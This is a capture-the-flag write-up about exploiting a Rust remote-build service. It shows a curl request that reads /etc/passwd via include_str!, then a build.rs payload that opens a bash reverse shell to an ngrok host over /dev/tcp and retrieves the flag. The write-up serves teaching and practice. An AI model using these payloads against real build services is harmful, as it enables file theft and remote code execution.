

# Challenge Build & Drustroy (day4)

<p align="center"></p>

<p align="justify"> In this challenge a Rust compilator was available online; it was possible able to send raw rust code to the online service which was returning a binary containing our Rust code compiled. The code was sent through JSON payload, using the following cmdline (provided with the chall). The source code of the compilator was also provided, docker file and server files also so you could have deployed the service locally : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
````
<p align="justify">I had never used Rust before, so I had to read a few doc before trying to exploit anything. After a few read, I came up with a first exploit. Actually with rust it's possible to use the macro include_str to load file/data during code compilation. So the first thing I tried was to load /etc/passwd, which was successful : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

<p align="center"></p>

<p align="justify">After that I thought I would have been to load directly but the name of the file flag wasn't the one provided in source files. Considering that I didn't managed to guess actual name of the flag file I decided to deploy a reverse shell using the following JSON payload (the revshell payload is available under revshell.rs in this repo) : </p>

````json
{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"0.tcp.eu.ngrok.io\"; let port = \"13457\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}
````

<p align="center"></p>

<p align="justify"> For tcp tunneling I used ngrok, and after I received the remote connection I managed to print the flag : </p>

Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
